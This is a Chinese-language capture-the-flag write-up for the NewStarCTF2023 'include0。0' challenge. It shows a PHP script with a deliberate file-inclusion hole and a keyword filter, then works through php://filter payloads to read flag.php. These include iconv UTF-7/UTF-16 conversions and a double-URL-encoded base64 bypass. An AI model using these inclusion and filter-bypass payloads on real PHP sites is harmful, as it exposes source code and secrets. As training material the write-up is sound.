

# NewStarCTF2023公开赛道-include0。0

源码

```
<?php
highlight_file(__FILE__);
// FLAG in the flag.php
$file = $_GET['file'];
if(isset($file) && !preg_match('/base|rot/i',$file)){
    @include($file);
}else{
    die("nope");
}
?> nope
```

很明显是文件包含漏洞，然后还告诉我们flag在flag.php中。

但是这里过滤了base和rot。试试data伪协议。

```
data://text/plain,<?php phpinfo();?>
```

发现使用后没有回显，data://伪协议的使用前提是**allow_url_fopen ：on且allow_url_include：on**
可能这两个配置被关闭了。使用php://input伪协议也不行。

尝试使用filter伪协议，filter伪协议的基本用法

```
php://filter/convert.base64-encode/resource=<目标文件名>
```

但是这里base被过滤了，可以使用其他编码方式的变种

## filter伪协议其他编码方式

```
php://filter/read=string.rot13/resource=<目标文件名> //rot13编码后读取文件内容
php://filter/convert.iconv.utf-8.utf-7/resource=<目标文件名> //将utf8编码转换utf7编码
php://filter/convert.iconv.utf8.utf16/resource=<目标文件名>  //将utf8编码转换utf16编码
```

## payload

这里使用第三个编码方式

```
?file=php://filter/convert.iconv.utf-8.utf-7/resource=flag.php
```

得到flag



**这里也可以使用二次url编码绕过base关键字过滤**

```
?file=php://filter/convert.%2562%2561%2573%256564-encode/resource=flag.php
```


